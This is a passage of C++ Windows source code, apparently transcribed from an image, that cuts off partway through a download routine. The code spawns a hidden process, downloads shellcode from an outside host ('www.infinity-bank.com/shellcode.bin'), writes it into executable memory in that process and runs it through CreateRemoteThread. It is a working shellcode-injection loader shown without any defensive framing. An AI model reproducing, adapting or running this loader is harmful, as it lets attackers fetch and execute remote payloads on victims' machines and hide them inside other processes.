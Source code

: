 ```
    CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW,
        NULL,
        NULL,
        startup_info,
        process_info);

    // download shellcode
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    // allocate memory
    LPVOID ptr = VirtualAllocEx(
        process_info->hProcess,
        NULL,
        shellcode.size(),
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    // copy shellcode
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        process_info->hProcess,
        ptr,
        &shellcode[0],
        shellcode.size(),
        &bytesWritten);

    // create remote thread
    DWORD threadId = 0;
    HANDLE hThread = CreateRemoteThread(
        process_info->hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)ptr,
        NULL,
        0,
        &threadId);

    // close handles
    CloseHandle(hThread);
    CloseHandle(process_info->hThread);
    CloseHandle(process_info->hProcess);
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_SECURE_DEFAULTS);          // enable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
```